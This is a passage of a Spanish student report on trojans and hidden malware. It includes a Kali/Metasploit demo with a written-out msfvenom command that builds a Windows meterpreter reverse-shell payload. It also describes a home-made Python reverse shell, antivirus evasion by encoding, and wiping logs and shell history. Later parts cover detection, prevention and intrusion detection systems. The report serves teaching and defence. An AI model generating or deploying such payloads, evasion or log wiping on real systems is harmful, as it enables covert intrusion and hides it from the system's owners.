                Tras identifiicar una vulnerabilidad y la forma de sacarle partido (más adelante ahondaremos un poco más en estas definiciones) es hora de intentar acceder al objetivo. Para ello en nuestro caso intentaremos conseguir la ejecución de código remoto, es decir, trataremos de hacer que la víctima ejecute un programa diseñado de tal manera que este se conecte de vuelta a nosotros para así poder intentar llevar el ataque un paso más allá. Es aquí donde centraremos la mayor parte de la atención en la demostración. Nosotros hemos preparado un programa que genera una puerta trasera en la máquina que se ejecuta. Este tiene un apariencia aparentemente inofensiva pero nos permitirá acceder remotamente a la víctima. Esto es, en definitiva, un troyano.

            \subsubsection{Escalada de privilegios}
                Cuando conseguimos "poner un pie en la puerta" seguramente lo hagamos como un usuario sin permiso alguno. Es por ello que necesitamos de alguna manera acceder a cuentas con permisos que nos permitan hacer más daño al sistema. Los privilegios a conseguir dependen del tipo de ataque que queramos llevar a cabo, no es necesario lograr coonvertirnos \texttt{root}, esto es, un usuario con permisos totales.

                \newpar

                En función de nuestro objetivo podemos intentar tratar de mantener este acceso tras la incursión. Para lograrlo deberemos intentar correr nuestra \textit{backdoor} como un servicio o infectar la máquina de alguna otra manera persistente a través de un \textit{rootkit}, por ejemplo. Dado que creemos que no aporta demasiado al tema tratado profundizar en este apartado preferimos mencionarlo y seguir avanzando.

            \subsubsection{Eliminación de evidencias}
                Las acciones que llevamos a cabo se verán reflejadas en el sistema. Es por ello que normalmente queremos tratar de "cubrir nuestras huellas". Para ello deberemos intentar borrar bitácoras o \textit{logs} del sistema como puede ser \texttt{syslog}. Puede que tengamos que eliminar el \textit{log} de servicios como \texttt{Apache}, un servidor web u otros en función de lo que hayamos hecho. Otro ejemplo de archivo que normalmente querremos destruir es la historia de la \textit{shell} que hayamos empleado como puede ser \texttt{~/.bash\_history} en el caso de \texttt{bash}. Existe una lista más exhaustiva a tener en cuenta en \cite{bib:log_files}.

            \newpar

            Esperamos haber sido informativos aunque hayamos deseado dejar la anteior descripción en la mínima expresión. Pasamos pues a describir la demostración que hemos llevado a cabo.

        \subsection{Demostración}
            Aun siendo este trabajo eminentemente teórico hemos querido preparar una demostración práctica que sustente lo ya expuesto. Ya que los términos en los que hemos discutido los conceptos anteriores han sido de carácter general hemos optado por hacer lo mismo en esta demostración. Esto es, en vez de buscar un ataque tremendamente específico hemos escogido uno sencillo que nos permita analizar la base teórica de la que hacen uso de una manera clara y concisa.

            \newpar

            Señalamos que los \textit{scripts} comentados que automatizan la tarea se pueden encontrar \href{https://github.com/UAH-s-Telematics-Engineering-Tasks/info_sec_proj/scripts}{en nuestro repositorio de \texttt{GitHub}}. No hemos incluido el código en este informe ya que creemos que sería poco práctico y reduciría enormemente el espacio del que disponemos para comentar nuestra investigación y puesta en práctica de la materia.

            \newpar

            Con el objetivo de arrojar incluso más luz sobre el malware oculto en general y los troyanos en particular decidimos incluso preparar nuestra propia versión con el objetivo de asentar los conocimientos adquiridos a la vez que relacionábamos el contenido de esta asignatura con el de otras impartidas en el grado.

            \newpar

            Creemos que con lo anterior hemos logrado demostrar las características básicas de este tipo de ataques que suelen ser, además, el primer paso en una cadena mucho más compleja.

            \subsubsection{Trabajando con \texttt{Kali}}
                Nuestro objetivo con esta sección no es solo analizar el funcionamiento de los troyanos sino también brindar una pequeña "guía" que permita a cualquiera recrear nuestras pruebas. Es por ello que es necesario describir el sistema con el que se ha generado todo.

                \newpar

                Dadas las facilidades que nos ofrece hemos escogido Kali Linux para generar los \textit{payload}s (más sobre ellos a continuación) y controlar las máquinas comprometidas. Kali es una distribución que usa Linux como kernel y que se basa en el archiconocida Debian. Sobre esta base robusta se ha instalado una gran cantidad de herramientas comúnmente empleadas en muchas áreas de la ciberseguridad como puede ser la ingeniería social, la ruptura de contraseñas, auditoría de redes WiFi... En nuestro caso estamos interesados en Metasploit y sus programas relacionados. Metasploit es un framework que nos permite generar ataques contra vulnerabilidades conocidas de una manera clara y rápida. Dado el soporte que ofrece la firma Rapid7, afincada en Boston, nuevas vulnerabilidades y los ataques que las aprovechan se añaden de manera continua. En definitiva, es una herramienta que permite preparar ataques de una manera rápida y que además ofrece una forma clara de continuar con la post-explotación una vez hemos conseguido acceder a la máquina víctima.

                \newpar

                Si bien Metasploit es una herramienta tremendamente potente nosotros solo hemos arañado la superficie de la funcionalidad que nos ofrece. En nuestro caso haremos uso del intérprete de órdenes msfconsole y del generador de \textit{payload}s msfvenom. Ambas herramientas se encuentran instaladas por defecto con lo que no nos las tendremos que ver con la compilación de una suite de herramientas tan extensa...

            \subsubsection{Terminología}
                Tras haberlo mencionado varias veces creemos que es el momento de esclarecer el significado del \textit{payload}. El término \textit{payload} es un anglicismo al que en español nos solemos referir como carga útil en el contexto de las redes que es en el que nos hemos formado. En este ámbito el \textit{payload} es código que, de ser ejecutado, nos brinda acceso al sistema objetivo. Quizá lo más importante de esta última oración es la palabra "ejecutado". Si bien el \textit{payload} es el paso anterior a conseguir el acceso que buscamos no vale de nada que esté almacenado en disco; necesitamos que de alguna manera se ejecute. Destacamos además que esta sección es la profundización de la fase \textit{acceso remoto} que describíamos al explicar las fases de las que se compone un ataque.

                \newpar

                Para lograr esta ejecución de código arbitraria tenemos que sacar partido a alguna vulnerabilidad. Estas vulnerabilidades son errores en programas o interacciones entre partes del sistema que pueden ser aprovechadas para llevar a cabo acciones \textit{a priori} no permitidas. La vulnerabilidad por si sola no implica nada, simplemente está ahí, esperando a ser arreglada mediante una actualización. Los atacantes sin embargo intentarán aprovecharla para lograr sus objetivos. En nuestro caso, la ejecución del \textit{payload} que hemos preparado.

                \newpar

                La forma de aprovechar la vulnerabilidad es a través de un exploit. Este exploit suele ser un programa que toma acciones para intentar aprovechar una vulnerabilidad determinada. Teniendo en cuenta la relación entre vulnerabilidades y exploits aprovechamos para señalar por qué es tan importante trabajar con equipos actualizados. Además de funcionalidades nuevas las actualizaciones se encargan de "parchear" vulnerabilidades que se han encontrado para evitar que puedan ser aprovechadas...

                \newpar

                En nuestro caso estamos interesados en analizar lo que ocurre una vez se ejecuta el \textit{payload}, no en la forma de lograrlo. Si aplicamos estos conceptos a raja tabla, en nuestro caso el exploit es el usuario, es quien va a ejecutar el programa que nos dará acceso a su sistema. Una vez analizado el funcionamiento de nuestro troyano entraremos a explicar una forma en la que podemos explotar el lector de PDFs Adobe Acrobat Reader para que no dependamos del usuario. Creemos que al posponer esta explicación conseguiremos centrar la atención en el malware propiamente dicho mientras que, dada la independencia entre las fases del ataque, no dificultamos seguir esta demostración.

                \newpar

                De la discusión anterior se desgrana el proceso común de ataque a un sistema víctima:

                \begin{itemize}
                    \item Generar el \textit{payload} que deseamos ejecutar en la víctima.
                    \item Encontrar una vulnerabilidad que podamos aprovechar.
                    \item Ejecutar el exploit que saque partido a esa vulnerabilidad para lograr ejecutar el \textit{payload}.
                    \item Ejecutar el \textit{payload} generado en la víctima para conseguir, en nuestro caso, acceso al sistema.
                    \item Emplear el acceso al sistema para lo que se desee: escalada de privilegios, conseguir información...
                \end{itemize}


                Con este esquema en mente pasamos a detallar cada una de las partes.

            \subsubsection{Generando el \textit{payload}: \texttt{MSFVENOM}}
                Para facilitar la comprensión de este paso podemos aludir a la formación que hemos adquirido en asignaturas como Sistemas Operativos o Programación en las que estudiamos el proceso que nos lleva desde un archivo fuente \texttt{*.c} a un ejecutable compilado. De manera muy resumida podemos decir que el código fuente pasa por el preprocesador que sustituirá todas las directivas \texttt{\#include <>}. A continuación el archivo resultante pasa por el compilador que se encargará de generar archivos objeto \texttt{*.o} para después enlazarlo junto con los demás gracias al enlazador. Tras este último paso llegamos a nuestro ejecutable funcional.

                \newpar

                Si observamos este ejecutable con una herramienta como \texttt{xxd} solo veremos una ristra de bytes comprensibles por nuestro equipo, el denominado código máquina. Ahora, si hacemos lo propio con los \textit{payload}s generados por \texttt{MSFVENOM} veremos que, en efecto, es análogo a un programa compilado. Con esto queremos demostrar que MSFVENOM simplemente nos devuelve ejecutables ya generados. Nosotros podremos controlar qué tipo de \textit{payload} queremos pero, al final del día, simplemente se nos devuelve un programa listo para ejecutar.

                \newpar

                Si bien los lenguajes interpretados como Python están cobrando cada vez más notoriedad en el mundo actual no debemos olvidarnos de las sutilezas que entraña la compilación de programas. Los sistemas operativos se caracterizan por una serie de parámetros como son el \textit{kernel} o núcleo que emplean o la arquitectura para la que están diseñados. Esto implica que programas generados para una plataforma que se sustente sobre Linux no son compatibles con otros que corran sobre Windows NT, el \textit{kernel} del sistema operativo homónimo. Bien es verdad que existen interfaces del sistema operativo estándar como \texttt{POSIX} pero no podemos aventurarnos a asegurar que un programa escrito para Windows corra en otro basado en Linux y viceveresa. Lo que es más, dentro de cada una de las familias anteriores distinguimos arquitecturas impuestas por las características físicas de la máquina, siendo las más típicas la de $64\ bits$ \texttt{(amd64/x64)} y la ya algo obsoleta de 32 bits \texttt{(i386/x86)}. Al igual que antes un programa compilado para una arquitectura no será compatible con la otra.

                \newpar

                Teniendo en cuenta las variables que hemos descrito llegamos a que podemos generar 4 tipos de \textit{payload}s en función del objetivo que tengamos. Estas 4 variables son:

                \begin{itemize}
                    \item \texttt{Linux - 64 bits}
                    \item \texttt{Linux - 32 bits}
                    \item \texttt{Windows - 64 bits}
                    \item \texttt{Windows - 32 bits}
                \end{itemize}

                Con esto en mente debemos alterar la salida que nos ofrece \texttt{MSFVENOM} a través de sus opciones para generer el \textit{payload} deseado. Con el fin de ocultar la complejidad de usar la herramienta directamente hemos escrito un script de bash (la shell por defecto de Kali y otras muchas distribuciones) que se encarga de esto por nosotros. El script en cuestión es \texttt{gen\_payload.sh}. No obstante, adjuntamos una invocación de ejemplo de MSFVENOM para comentar qué efecto tiene cada una de sus opciones:

                \begin{center}
                    \texttt{msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse\_tcp LHOST=192.168.1.2 LPORT=5000 -f exe -o win\_pyld.exe}
                \end{center}
                

                Con lo anterior estamos generando el \textit{payload} \texttt{win\_pyld.exe}. La arquitectura y plataforma de este programa vienen dadas por las opciones \texttt{-a} y \texttt{--platform} respectivamente. Consultando los valores pasados vemos que se trata de una máquina que ejecuta la versión de 64 bits de Windows. Asimismo, el tipo de \textit{payload} seleccionado es \texttt{windows/x64/meterpreter/reverse\_tcp}. En la siguiente sección comentaremos el funcionamiento de la misma. Dado el \textit{payload} escogido debemos pasar dos opciones que se introducirán en el código del mismo. En este caso son la IP (\texttt{LHOST}) y el puerto (\texttt{LPORT}) de la máquina atacante. En secciones subsiguientes estudiaremos por qué son necesarias estas opciones. Finalmente especificamos el formato del \textit{payload} generado con la opción \texttt{-f}. Dado que el formato estándar de los archivos ejecutables en Windows. Este archivo generado tendrá, además del programa propiamente dicho, las instrucciones necesarias para que el loader de Windows lo cargue correctamente.

                \newpar

                Como ya comentamos anteriormente, uno de los mecanismos más comunes para detectar malware es la comparación de archivos sospechosos con firmas almacenadas en bases de datos que se han asociado a algún archivo malicioso. Con la orden anterior hemos generado el \textit{payload} sin intentar ocultarlo de ninguna manera. Más adelante comentaremos como, a través de un proceso denominado codificación, podemos intentar ocultar este programa malicioso para así inhibir o al menos dificultar el trabajo de los antivirus.

                \newpar

                En definitiva, lo que hemos logrado generar es un programa que, de ser ejecutado en la máquina víctima, nos proporcionará acceso desde la máquina atacante.

            \subsubsection{Llevando a cabo el ataque}
                Hasta ahora no hemos explicado qué es lo que hace el \textit{payload} que estamos generado. Sabemos que tenemos un programa que, de ejecutarse en la víctima, nos daría acceso a la misma pero desconocemos cómo lo hace.

                \newpar

                Gracias al nombre del \textit{payload}, los parámetros que acepta y la información que nos proporciona un analizador de protocolos como \texttt{WireShark} podemos hacernos una idea de lo que está ocurriendo. El programa generado al ejecutarse simplemente abrirá un socket que utiliza \texttt{TCP} en la capa de transporte (de ahí el sufijo tcp del nombre del \textit{payload}) y que tratará de conectarse de vuelta a la máquina atacante (de ahí el reverse del nombre). Una vez se establezca la conexión este programa se baja una shell que le suministra el atacante y que pasará a ejecutar en la víctima, cosa que nos brinda acceso al sistema objetivo.

                \newpar

                Ahora bien, este \textit{payload} debe saber cómo conectarse de vuelta a la máquina atacante. Es aquí donde entran en juego las opciones \texttt{LHOST} y \texttt{LPORT} que se encargan de identificar a la máquina atacante a través de su dirección IP (\texttt{LHOST}) así como al programa que espera recibir la conexión del \textit{payload} a través de un número de puerto (`LPORT`). En el fondo este \textit{payload} resulta ser, desde un punto de vista general, tremendamente sencillo.

                \newpar

                Una vez que se haya ejecutado el programa malicioso en la víctima debemos aceptar la conexión de vuelta y poner todo a funcionar. Para ello haremos uso de la consola de metasploit a través del comando \texttt{msfconsole}. Debemos configurar nuestra sesión para que acepte la conexión que esperamos y descargue a través de esta la shell que deseamos ejecutar en la máquina atacante. Al fin y al cabo lo que queremos lograr es tener una sesión en la víctima que nos permita controlarla.

                \newpar

                Al igual que hicimos con la generación del \textit{payload} hemos automatizado el proceso a través de un script en bash que está enteramente comentado (\texttt{troj\_c\_n\_c.sh}). Tras lanzarlo esperaremos la conexión del \textit{payload} una vez se ejecute y pasaremos a tener automáticamente un inductor (prompt) esperando órdenes para ejecutar en la víctima.

                \newpar

                Si bien tenemos shells tradicionales como bash, zsh o ksh en este caso estamos tratando con un entorno totalmente distinto. Si recordamos el nombre del \textit{payload} y nos quedamos con la última parte (\texttt{meterpreter/reverse\_tcp}) veremos que nuestro \textit{payload} se puede desglosar en dos partes:

                \begin{itemize}
                    \item \textit{Stager}: \texttt{reverse\_tcp} -- Se encarga de la conexión de vuelta a la máquina atacante
                    \item \textit{Stage}: \texttt{meterpreter} -- Shell a ejecutar
                \end{itemize}

                Vemos pues que el inductor que aparece en el atacante pertenece a esta shell. La forma de cargar esta shell en memoria es a través de la inyección del código descargado en el espacio de memoria del proceso que ya generó la conexión de vuelta. Es decir, en una primera instance el stager se conecta de vuelta al centro de control (máquina atacante). Al ejecutarse este \textit{payload} se genera un proceso, como en cualquier otra ocasión. Tras descargarse el código compilado de meterpreter este se carga en el espacio de memoria del proceso y pasamos a ejecutar la shell que recibimos de vuelta.

                \newpar

                Vemos pues que el proceso implica una serie de pasos a pesar de ser relativamente sencillo. Al tratarse de un entorno totalmente nuevo tenemos una gran cantidad de herramientas y órdenas que nos permitirán recabar la información que estemos buscando.

                \newpar

                Como ya dijimos antes, consideramos el caso en el que el usuario ejecuta directamente nuestro programa ya sea por desconocimiento, valentía o inconsciencia. Esto implica normalmente que no tendremos permisos administrativos, es decir, podremos hacer tanto como podríamos con una cuenta de usuario normal y corriente. Esto abre la puerta a las etapas posteriores tras la entrada en el sistema: la post-explotación. Una vía de acción típica es el escalado de privilegios para lograr el control total de la víctima, por ejemplo. Dado que no es el tema que nos atañe lamentamos tener que dejarlo aquí...

            \subsubsection{Nuestra propia versión}
                Tras analizar el funcionamiento de la solución ofrecida por Metasploit nos decidimos a intententar algo parecido con un programa propio. Dada la facilidad que ofrece al desarrollo optamos por emplear Python como lenguaje para implementar nuestra propuesta. Somos conscientes de que lo que hemos escrito es mucho menos sofisticado que lo que podemos lograr con Metasploit pero queríamos llevar a cabo nuestra propia prueba de concepto.

                \newpar

                En vez de intentar cargar un entorno nuevo a través de la conexión que hacemos de vuelta al centro de control hemos optado por emplear la shell del propio sistema. Para ello hacemos uso de la librería \texttt{subprocess} que nos permite inspeccionar la salida de comandos del sistema. La arquitectura de nuestro programa es por tanto muy sencilla. El \textit{payload} solo se encarga de abrir una conexión TCP hasta el atacante y espera a recibir comandos. Al recibirlos los ejecuta en la víctima para devolver la salida de los mismos al centro de control. El proceso continúa hasta que uno de los dos programas muere, lo que precipita el cierre de la conexión.

                \newpar

                Asimismo hemos considerado mejoras como puede ser la encriptación de las comunicaciones. Aunque no hemos llegado a implementarlas sería interesante intentar asegurar que la información extraida de la víctima no puede ser leida ni por terceros ni por ningún defensor del sistema comprometido.

            \subsubsection{Esquivando a los antivirus}
                Antes ya adelantábamos cómo uno de los métodos típicos de detección de malware es la comparación con otras muestras maliciosas conocidas. En un intento de camuflar programas maliciosos podemos tratar de ofuscarlos, esto es, enredar tanto el código que la similitud con otras muestras conocidas se reduzca enormemente. Para ello contamos con herramientas como los codificadores o encoders. Uno de los ejemplos más conocidos es \textit{Shikata-Ga-Nai} que significa "no se puede hacer nada" en japonés, aludiendo a cómo complica la detección del malware codificado por parte de programas especializados.

                \newpar

                La forma de lograr este comportamiento es cifrar las instrucciones del propio \textit{payload} con una clave que se aplica en el momento de la ejecución con lo que la firma no es sospechosa. El primer paso de la ejecución es obtener el contador del programa para saber dónde se está ejecutando actualmente el programa malicioso para así poder modificar futuras referencias a memoria y así desenredar el "bicho" en tiempo real. Esta técnica podría incuso permitir a su usuario cambiar de forma o mutar en tiempo real con lo que los efectos del malware podrían multiplicarse.

                \newpar

                Este campo resulta sin duda interesante pero dado que solo queríamos preparar una pequeña demostración nos hemos visto obligados a solo mencionarlo. Esperamos haber sido claros exponiendo los conceptos y los pasos para reproducir el ataque. A nosotros sin duda nos ha servido para comprender mejor el funcionamiento interno de este tipo de malware. Con todo, nos queda estudiar cómo detectar y prevenir este tipo de ataques.

    \section{Detección de malware oculto}
        Existen varias maneras de poder detectar cuándo un software malicioso se ha introducido en un sistema o equipo determinado. A continuación mencionamos las más importantes.

        \subsection{Detección basada en firmas}
            Es uno de los mecanismos más usados debido a su sencillez, velocidad y destacable precisión a la hora de identificar malware específico.

            \newpar

            Este modo de detección compara la “firma” de los archivos a analizar con una base de datos y si hay coincidencia, el archivo es identificado como malware. Existen tres tipos de firmas.

            \subsubsection{Archivos completos}
                Se computa un \textit{fingerprint} del archivo completo usando un hash criptográfico como, por ejemplo, \texttt{SHA-1} y se compara con los hashes de las firmas almacenados en una base de datos. Debido a las características de estos hashes, el mínimo cambio en el archivo de entrada cambiaría por completo el \textit{fingerprint} resultante debido al efecto "avalancha" que se busca en el diseño de este tipo de funciones digestivas. Esto impedirá en gran medida que las comparaciones resulten en falsos positivos, esto es, que parezca malware algo que no lo es, ya que es prácticamente imposible que dos archivos distintos generen el mismo \textit{fingerprint}. Por lo tanto los malwares pueden ser detectados de manera rápida y eficaz.

            \subsubsection{Archivos parciales}
                A diferencia del caso anterior, el \textit{fingerprint} se computará sólo de ciertas secciones del archivo. En los archivos de malware hay secciones que no tienen tanta relevancia y pueden ser modificadas fácilmente por lo que el análisis se centra en las secciones críticas del funcionamiento del malware para así ser capaces de detectar variantes de malware de manera eficaz.

            \subsubsection{Firmas de cadenas}
                Siguiendo el mecanismo de las anteriores firmas se analizarán las posibles cadenas de caracteres y se compararán con la base de datos. Este método no es muy eficaz con malware oculto ya que no suele interactuar con el usuario, pero con malware como el \texttt{Stone virus} que contiene una cadena diciendo \textit{Your PC is now stoned} un archivo con esa cadena puede ser identificado como posible malware. No obstante se tendrán más características en cuenta para determinar que es efectivamente malware.

            \subsubsection{Ventajas e inconvenientes}
                La detección basada en firmas es una técnica muy fácil de implementar y gracias a la utilización de hashes criptográficos es muy eficaz a la hora de encontrar amenazas conocidas por lo que su tasa de falsos positivos es bajísima.

                \newpar

                Las desventajas más significativas de la detección basado en firmas son causadas debido a la base de datos. La base de datos juega un papel crucial en el sistema, por lo que tiene que estar siendo actualizada continuamente para que se puede detectar nuevos tipos de malware generados lo cual lo convierte en un sistema vulnerable a \textit{zero-day} malware. Esto es, tipos de malware de los que todavía no se ha tenido constancia con lo que no existe ninguna entrada en la base de datos que los identifique. Otra gran desventaja es que cuanto más grande sea la base de datos, más carga habrá sobre la CPU del sistema por lo que es difícil encontrar un equilibrio entre rapidez del sistema y eficacia de la base de datos. Esta técnica de detección tampoco es capaz de combatir malware que muta o modifica su código en cada infección como \textit{polymorphic} y \textit{metamorphic} malware. Esto se puede implementar a través de codificadores de payloads como \texttt{shikata-ga-nai}.

        \subsection{Detección basada en comportamiento}
            La detección basada en comportamiento evita el uso de las firmas criptográficas. Se analiza un archivo para determinar si es un posible malware centrándonos mucho más en qué hace el archivo al ejecutarlo en vez del contenido del mismo. Este tipo de mecanismo permite detectar malware que muta ya que siempre usarán los recursos y servicios del sistema de manera similar. Un detector basado en comportamiento está dividido en tres bloques:

            \begin{itemize}
                \item \textbf{Primer bloque}: Recoge información dinámica/estática del ejecutable.
                \item \textbf{Segundo bloque}: Convierte la información obtenida en representaciones intermedias interpretables por el tercer bloque.
                \item \textbf{Tercer bloque}: Utilizará las representaciones del segundo bloque para determinar si el archivo analizado es considerado como malware o no.
            \end{itemize}

            \subsubsection{Ventajas e inconvenientes}
                La principal ventaja de este método es su capacidad de detectar el malware que el método por firmas no es capaz como malware desconocido y variaciones de malware polimórfico. Las desventajas más significativas son la alta tasa de falsos positivos y la cantidad de tiempo elevada que toma el escaneo de archivos ya que se debe ejecutar la muestra y estudiar su comportamiento.

        \subsection{Detección basada en analísis heurístico}
            La detección de malware utilizando análisis heurísticos fue creada para superar las desventajas encontradas en la detección por firmas o basada en el comportamiento. Los métodos usados para ello son el procesamiento de datos y las técnicas de aprendizaje automáticas para comprender el comportamiento de un ejecutable. Las características de este tipo de detección se pueden dividir generalmente en cuatro bloques.

            \subsubsection{Llamadas a servicios del sistema operativo}
                Casi todos los programas usan llamadas a la \texttt{API} que ofrece el sistema operativo. Las secuencias de peticiones de servicio se comportan como fragmentos de código malware. \textit{Hofmeyr} fue de los primeros que consideró estas secuencias como características de malware \cite{bib:malware_calls} por lo cual se desarrolló una detección basada en llamadas al sistema. La distancia de \textit{Haming}, que es el número mínimo de sustituciones que se tienen que efectuar sobre una cadena para que sea idéntica a otra, fue utilizada para comparar las secuencias de llamadas al sistema y poder clasificar las muestras como malware. Destacamos, a modo de curiosidad, que esta misma definición de distancia es la que se aplica en los sistemas de escáner retinal que implementan el control de acceso de muchos edificios.

            \subsubsection{Código operacional}
                El código operacional consiste en la subdivisión de lenguaje de instrucciones de máquina que identifica la operación a realizar. Un programa está definido por una serie de instrucciones de ensamblador. \textit{Bilar} mostró la habilidad de utilizar código operacional como características en la detección de malware, analizó y demostró la alta fiabilidad para detectar amenazas de un ejecutable \cite{bib:malware_asm}. Hay varios tipos de detección de malware basadas en código operacional como por ejemplo un enfoque centrado en detectar variantes de malware ofuscado. Normalmente el procedimiento es descomponer el ejecutable en instrucciones de ensamblador y calcular la relevancia de estas instrucciones. Basándose en la técnica de frecuencia-peso de término se construye un vector que representa las características del ejecutable para poder ser estudiado como posible amenaza. También es posible detectar malware desconocido  y metamórfico basado en gráficas de medición de similitud. Para poder llevar a cabo esta técnica de detección basada en código operacional se extrae código operacional de archivos benignos y malwares y se compara el código operacional de ambos.

            \subsubsection{Diagramas de flujo}
                Los diagramas de flujo son representaciones gráficas que describen el funcionamiento de un algoritmo o proceso. Están compuestos por nodos que representan una instrucción del programa y de líneas que muestran el flujo de control entre instrucciones. Se puede detectar malware a través del uso del diagramas de flujo \cite{bib:malware_flow} mediante un conjunto de operaciones de normalización realizadas después de “desmontar” el ejecutable para reducir el efecto de técnicas de mutación y poder desvelar conexiones de flujo entre código benigno y malware. Se crea un diagrama de flujo que se comparará con diagramas de flujos de malware normalizado.

                \newpar

                \textit{Zhao} \cite{bib:malware_graphs} propuso un método de detección de malware utilizando diagramas de flujo. Primero obtiene el diagrama siguiendo los pasos previos, a continuación utiliza las características obtenidas como información de los nodos, líneas de flujos y sub-flujos para utilizar un algoritmo de procesamiento de datos como \cite{bib:malware_f_a, bib:malware_f_b, bib:malware_f_c}.

                \newpar

                Los diagramas de flujo pueden ser incluso utilizados como firmas de detección. Como se ha mencionado los diagramas de flujo están compuestos por nodos y líneas de flujo y como sabemos el flujo de todo lenguaje ensamblador se controla con cuatro tipo de instrucciones elementales: saltos condicionales, saltos incondicionales, llamadas a función y retorno de llamadas. \textit{Bosfante} \cite{bib:malware_nodes} abstrajo cualquier secuencia de instrucciones seguidas en un nuevo nodo llamado \textit{inst} y al final del programa se creó otro nodos denominado \textit{end}. Utilizando estos seis nodos se construye un diagrama de flujo del ejecutable. Para reducir el tamaño del diagrama de flujo los nodos de salto incondicional y los nodos \textit{inst} son eliminados y se enlazan los nodos que estuvieran unidos por los eliminados. El resultado se utilizara como una firma.

            \subsubsection{Características híbridas}
                Cada bloque previamente estudiado tiene sus propias ventajas e inconvenientes a la hora de detectar malware. Por ejemplo, con el uso de diagramas de flujo se puede detectar fácilmente malware simple pero para detectar malware polimórfico o metamórfico no es suficiente. Es por eso que a la hora de crear un sistema de detección se usa una combinación de los bloques expuestos para obtener un mejor resultado. \textit{Eskandari} \cite{bib:malware_hybrid} creó un sistema que utilizaba diagramas de flujo y llamadas a la \texttt{API} estándar de \texttt{C} en aras de un mejor rendimiento de esta prevención.

    \section{Prevención de malware oculto}
        Existen muchos y muy efectivos métodos de detección de malware que nos ayudan a permanecer seguros y la mayoría son capaces de detectar el malware antes de que este cause problema alguno. No obstante, como todos sabemos es "mejor prevenir que curar" por lo que poniendo en práctica las siguientes técnicas de prevención de malware creamos una capa de seguridad adicional.

        \subsection{Proteger vulnerabilidades}
            Hoy en día una de las herramientas más usadas a la hora de entregar malware son los \textit{exploit kits} y la manera más eficaz para protegerse contra ellos es tener las aplicaciones y el sistema operativo actualizados. Estas actualizaciones son a menudo lanzadas para parchear vulnerabilidades de seguridad descubiertas. Otra técnica bastante efectiva es habilitar la función \textit{click-to-play} que proporcionan plugins para navegadores. Esto se debe a que de estar deshabilitada esta función y, empleando anuncios maliciosos, algunos \textit{exploit kits} pueden introducirse en un sistema sin mediación alguna del usuario. Es también vital evitar la utilización de sistemas operativos que han dejado de tener mantenimiento periódico como por ejemplo \texttt{Windows 7} que este año vio como \texttt{Microsoft} le retiraba el soporte.

        \subsection{Cuidado con la ingeniería social}
            La estafa a través de técnicas de ingeniería social es otro metodo de infección muy utilizado en la actualidad. Ejemplos de este tipo de tácticas son correos electrónicos con apariencia inofensiva, campañas sociales sospechosas o incluso llamadas del soporte técnico de tu sistema operativo. Estando alerta de las siguientes tácticas de ingeniería social se puede prevenir ser engañado.

            \begin{itemize}
                \item Leer emails meticulosamente: La suplantación de identidad a través de un correo electrónico es exitosa sólo cuando los lectores no prestan atención o no saben en qué fijarse. Comprobando que la dirección de correo esté verificada, que los enlaces de redireccionamiento llevan a páginas oficiales, que no solicitan información privada por medios no seguros podemos estar bastante seguros de si el correo es o no legítimo.
                \item Instalar programas falsos: Debemos ignorar los \textit{pop-ups} que ofrezcan ayuda contra malware mediante una aplicación no oficial ya que empresas reales de seguridad nunca se promociona mediante estas estrategias y menos alertando de que han detectado que estas infectado cuando ni siquiera tienes su aplicación instalada.
            \end{itemize}

        \subsection{Navegación segura}
            \textit{“Siguiendo consejos básicos y manteniendo buenos hábitos a la hora de navegar evitaremos el 95\% de los ataques apuntando” , Adam Kujaya}

            \newpar

            Algunos de los consejos y hábitos son:

            \begin{enumerate}
                \item Usar contraseñas seguras o gestores de contraseñas como \texttt{Dashlane}.
                \item Asegurarse de tener acceso a Internet a través de redes de acceso seguras.
                \item Cerrar sesión de páginas cuando termines de utilizarlas.
            \end{enumerate}

    \section{Sistemas de detección de intrusiones}
        \subsection{¿Qué son estos sistemas?}
            Un \texttt{IDS} se implementa en hardware o software y automatiza la detección de amenazas monitorizando sistemas y redes de computadores en busca de evidencias de violación de una determinada política de seguridad. Ante tal detección, genera informes interpretables por bases de datos. Pasamos a profundizar en las partes que lo componen.

            \subsubsection{Registro de eventos}
                Este registro de evenetos es la fuente de información que será procesada por el \texttt{IDS}. Estos datos se pueden obtener de fuentes externas, asociadas a la red o de internas de los sistemas individuales. Cada fuente puede detectar ciertos eventos específicos.

            \subsubsection{Motor de análisis}
                Este motor se encargará de organizar y caracterizar los datos de actividad del sistema o red en busca de información que sea de interés. Los modos más comunes son:

                \begin{enumerate}
                    \item Detección de un mal uso o \textit{misuse detection}
                    \item Detección de anomalías o \textit{anomaly detection}
                \end{enumerate}

            \subsubsection{Componente de respuesta}
                Las respuestas a intrusiones se dividen en dos tipos: activas y pasivas. Los sistemas comerciales actuales contemplan una variedad de respuestas activas, pasivas y combinaciones de ambas.

                \paragraph{Respuestas activas}
                    Tras producirse un evento se realiza una acción preconfigurada. Definir estas acciones puede suponer un problema ya que son respuestas automatizadas. Entre ellas encontramos:

                    \begin{enumerate}
                        \item \textbf{Recopilar información adicional}: Incrementa el nivel de sensibilidad de las fuentes y redirige el ataque a máquinas señuelo o \textit{honeypots}.
                        \item \textbf{Tratar de detener el ataque}: Corta la conexión o niega el acceso a \texttt{IP}s determinadas . Reconfigura mecanismos de filtrado de paquetes y deshabilita interfaces de red.
                        \item \textbf{Tomar acciones contra el atacante}: Contacta con el administrador de la red atacante o directamente contraataca.
                    \end{enumerate}

                \paragraph{Respuestas pasivas}
                    Se limitan a registrar el evento sucedido. Entre ellas se encuentran:

                    \begin{enumerate}
                        \item \textbf{Alarmas y notificaciones}: \textit{Pop-ups}, notificaciones remotas a teléfonos móviles y notificaciones vía e-mail (desaconsejadas puesto que son menos seguras). Programas como \texttt{Grafana} permiten construir paneles de control visuales que facilitan esta labor.
                        \item \textbf{Traps SNMP}: Algunos \texttt{IDS} generan alarmas y las envían a centrales de gestión de red. Para ello hace uso del protocolo de gestión \texttt{SNMP} que cuenta con un mecanismo de notificaciones asíncronas de los agentes controlados al controlador. Esto son, en efecto, las \textit{traps} que comentábamos. Esto permite adaptar toda la infraestructura de red ante un ataque y libera al equipo afectado por el ataque de la carga de procesar las acciones de respuesta al mismo.
                    \end{enumerate}

            \subsubsection{Detalles varios de los IDS}
                Además de la diferenciación de los \texttt{IDS} por las características de sus componentes, se pueden también clasificar según su arquitectura en dos tipos: integrados en el objeto de la detección y separado de él.

                \newpar

                Se pueden monitorizar varios elementos: \textit{hosts} a través de \textit{logs} a nivel del sistema operativo, redes mediante la captura de paquetes y aplicaciones a partir de sus \textit{logs}, por ejemplo.

                \newpar

